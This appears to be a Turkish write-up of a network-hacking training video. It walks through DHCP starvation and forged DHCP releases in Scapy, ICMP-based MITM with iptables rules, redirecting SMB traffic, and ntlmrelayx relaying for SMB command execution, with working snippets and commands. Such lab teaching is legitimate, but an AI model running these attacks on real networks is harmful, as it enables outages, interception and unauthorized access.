










# **Network Hacker 0x04 - Yetkilerini Aş /w Barkın Kılıç**  

Eğitim serisinin [4. videosunu](https://www.twitch.tv/videos/658410127) yazılı hale getirmeye çalışacağım. Keyifli okumalar dilerim.  

## **0x00 : Giriş**
Bir önceki yayında uygulaması eksik kalan teorik bilgilerin pratik karşılıklarını bu derste ele alacağız. DHCP ve ICMP üzerinden yapılan saldırıların yanı sıra SMB protokolüyle ilgili örnekler de yer alacak.

## **0x01 : Topoloji**



Bu derste **DHCP client simülasyonu** yapan bir Python kodu geliştirildi. [Koda erişmek için tıklayın.](tools/dhcp_client.py)

DHCP Discover paketleri gönderilirken ethernet seviyesinde belirli bir MAC adresine yönelik talep yapılır. **Broadcast MAC** adresiyle (örneğin `b'\xff\xff\xff\xff\xff\xff'`) çalışılır. Bu adres değiştirildiğinde farklı IP adresleri atanır. (14. satır)

Örneğin:
```python
srcMacB = b'\xff\xff\xff\xff\xff\xfe'
```
srcMacB değerini yukarıdaki gibi baştaki `\xff` değerini hariç tutarak değiştirdiğimiz zaman DHCP protokolü adres aralığında istediğimiz gibi konuşup istediğimiz gibi aksiyon gerçekleştirebiliyoruz. DHCP sunucusundan sürekli IP talep ederek IP havuzunu doldurabilir ve yeni cihazların IP alması engelleyebiliriz. Sonuç olarak aynı fiziksel cihaz, farklı MAC ve IP ile ağda "birden fazla cihaz" olarak görünebilir.



Görüldüğü üzere `\xff` ile tanımlanan mac adresine tahsis edilen ip **10.10.10.11** iken 
`\xfe` ile tanımlanan mac adresine tahsis edilen ip **10.10.10.12** olmakta 
Bunların hepsi aynı fiziksel bilgisayardan gelen talepler ama sistem yöneticisi baktığında 4 farklı cihaz var gibi anlıyor.

## **0x02 : DHCP Starvation Attack**

Bu saldırıda, rastgele MAC adresleri üretilip sürekli IP talebi yapılarak DHCP sunucusunun IP havuzu doldurulur.



Bu atak sonucunda yeni cihazlar IP adresi alamaz. Bunun bir tık ilerisi de hali hazırda ip almış sistemin ipsini boşa çıkarabiliriz. Ip adresini kendimiz alabiliriz. Bunun için 79-85. satırlar arasında yer alan kısımları yorum satırına alalım ve 87. satırdaki yorum satırını açalım. 

Trafiğin arasına girme işlemi yapmıyoruz ip çalma veya değiştirme işlemi yapıyoruz
IP'si 20 ile biten cihazı release etmek istiyorum. İlgili yerleri 20 olarak değiştirerek komutu çalıştırıyorum.

**Kod Parçacığı:**
```python
srcMacB = b'\xff\xff\xff\xff\x09\xfe'
bootp = BOOTP(chaddr=srcMacB, ciaddr='10.10.10.20', xid=tid)
dhcp = DHCP(options=[("message-type", "release"), ("requested_addr", "10.10.10.20"), "end"])
```

Saldırgan, ağdaki cihazların MAC ve IP bilgilerini kullanarak belirli cihazların IP adreslerini düşürebilir.



Arka tarafta sürekli olarak ip alamaya çalışan istemcileri dinleyerek paketlerini yakalayıp istediği mac adresini alıp ip ve mac adreslerini kullanarak release eden bir script yazabiliriz. 

```python
def sniffer():
    sniff(iface=interface, stop_filter=sniffer_get)

def sniffer_get(packet):
    global srcMacB, offerIP, bootp
    if ARP in packet:
        print("ARP", packet[0][0][1].hwsrc, "/", packet[0][0][1].psrc)
        srcMacB = binascii.unhexlify(packet[0][0][1].hwsrc.replace(':', ''))
        offerIP = packet[0][0][1].psrc
        release()
        srcMacB = binascii.unhexlify("ff" + randomString(14))
        print("DHCP STEAL IP: ", offerIP, "MAC: ", srcMacB)
        bootp = BOOTP(chaddr = srcMacB, ciaddr = '0.0.0.0', xid = tid)
        time.sleep(1)
        request()
        return False
```

Bu kod parçacağı ağda giden bir dhcp requesti içerisinden dataları topluyor. Bunu release edip sonra ip adresine gidip random belirlediğimiz mac adresini buna ver diyor. Yani ağdaki güvenilir bir ip ile rastgele bir macten istediğimiz gibi gezebiliyor oluyoruz.

## **0x03 : ICMP ile MITM**

Switchlerde **ARP Inspection** veya diğer güvenlik önlemleri nedeniyle, 2. katmandaki MITM saldırıları zorlaştırılabilir ancak geçen eğitimde de öğrendiğimiz üzere 3. katmanda ICMP protokolü kullanılarak saldırılar gerçekleştirilebilir. Şimdi bunun uygulamasını gerçekleştireceğiz. [Kodu için tıklayınız](tools/icmp_mitm.py)

**ICMP ile Paket Yönlendirme - Linux:**

  ```bash
  cat /proc/sys/net/ipv4/ip_forward
  ```
  Eğer `0` dönerse, paket yönlendirme kapalıdır. `1` dönerse paketler yönlendirilir.

MITM sırasında saldırgan gelen paketleri kurban-2'den alır ve kurban-1'e iletir (Kırmızı oklar):



```bash
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
eth0'dan çıkan paketlerin hepsi benim eth0'daki ip adresimde maskeleme işlemini yapıyor. Kaynak ip adresini kurbandan değil, saldırgandan geliyor gibi görüyor. Böylece reply cevapları da artık pratikte bana döner oluyor (NOT yapıyor) ve ful bir mitm'a çevrilmiş oluyor. 



### **Protokol Sömürme**
Saldırgan, oturum çalma veya protokol sömürme yoluyla hassas verilere erişebilir. Örneğin:

**NTLM Hash Çalma:**

Bir istemci, bir Windows sunucusuyla bağlantı kurmak istediğinde:

   - İstemci tarafından gönderilen doğrulama bilgileri (hash) saldırgan tarafından yakalanabilir.
   - Saldırgan, bu doğrulama bilgilerini kullanarak sunucu üzerinde yetkili işlemler gerçekleştirebilir.



## **0x04 : Trafiği Yönlendirme**

Saldırgan, IP tabanlı hedef yönlendirme yaparak hedef trafiği manipüle edebilir.

```bash
iptables -t nat -A PREROUTING -s 10.10.10.11 -d 10.10.20.2 -p tcp --dport 445 -j DNAT --to 10.10.10.12
```

- Bu kuralla, 10.10.10.11 kaynaklı cihazdan gelen 445 numaralı porttaki (SMB) trafik, saldırganın cihazına yönlendirilir.

Saldırgan, [NTLMRelayx](https://github.com/SecureAuthCorp/impacket) gibi araçları kullanarak istemcilerden gelen oturum bilgilerini yakalayabilir:
  ```bash
  python3 examples/ntlmrelayx.py -t 10.10.20.2 -socks -smb2support
  ```

Bu servis arkada bir soket oluşturacak ve saldırgan arkada istediği işlemleri gerçekleştirebiliyor olacak. 
Bu işlemlerden sonra clientın servera bağlanmaya çalıştığı durumda oturum işlemleri alıyor oluyorum



## **0x05 : SMB ile Yetkili İşlemler**

**SMBClient ile Dosya Yerleştirme:**

Saldırgan, istemciden yakalanan oturum bilgilerini kullanarak SMB üzerinden yetkili işlemler gerçekleştirebilir.



Bundan sonra dosya yerleştirme, dosya çekme her şeyi yapabilir konuma geliyoruz. 
Sorulan password kısmını boş geçebiliriz çünkü oluşturduğumuz soketten açtı ve soketin yetkilendirmesine göre de boş bırakabiliriz

**SMBExec ile Komut Çalıştırma:**

Saldırgan, sunucuda komut satırına erişebilir ve dosya işlemleri yapabilir. 



Aynı şekilde parolayı boş bırakabiliriz. 